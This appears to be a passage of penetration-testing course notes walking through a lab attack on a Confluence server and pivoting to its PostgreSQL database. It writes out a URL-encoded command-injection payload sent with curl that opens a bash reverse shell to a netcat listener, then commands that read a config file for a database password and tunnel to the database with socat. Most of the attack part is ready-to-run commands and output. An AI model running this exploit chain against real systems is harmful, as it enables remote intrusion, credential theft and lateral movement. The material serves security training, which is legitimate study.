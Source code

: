 ## 18.2. Port Forwarding with Linux Tools
### 18.2.2. Setting Up the Lab Environment
#### Start a netcat listener on Kali host
```Shell
nc -lnvp 4444
```
#### Run a curl command to the Confluence server to achieve a reverse shell through command injection vulnerability
```Shell
curl http://192.168.231.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.155/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```
#### Enumerating network interfaces on CONFLUENCE01
```Shell
ip addr
```
#### Enumerating routes on CONFLUENCE01
```Shell
ip route
```
#### The credentials found in the Confluence confluence.cfg.xml file on CONFLUENCE01
```Shell
cat /var/atlassian/application-data/confluence/confluence.cfg.xml
```
Output:
```
<sian/application-data/confluence/confluence.cfg.xml   
<?xml version="1.0" encoding="UTF-8"?>

<confluence-configuration>
  <setupStep>complete</setupStep>
  <setupType>custom</setupType>
  <buildNumber>8703</buildNumber>
  <properties>
...
    <property name="hibernate.connection.password">D@t4basePassw0rd!</property>
    <property name="hibernate.connection.url">jdbc:postgresql://10.4.50.215:5432/confluence</property>
    <property name="hibernate.connection.username">postgres</property>
...
  </properties>
</confluence-configuration>
confluence@confluence01:/opt/atlassian/confluence/bin$ 
```
### 18.2.3. Port Forwarding with Socat
#### Running the Socat port forward command (From confluence server)
```Shell
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```
#### Connecting to the PGDATABASE01 PostgreSQL service and listing databases using psql, through our port forward (from Kali)
```Shell
psql -h 192.168.50.63 -p 2345 -U postgres
```
#### The contents of the cwd_user table in the confluence database
```Shell
```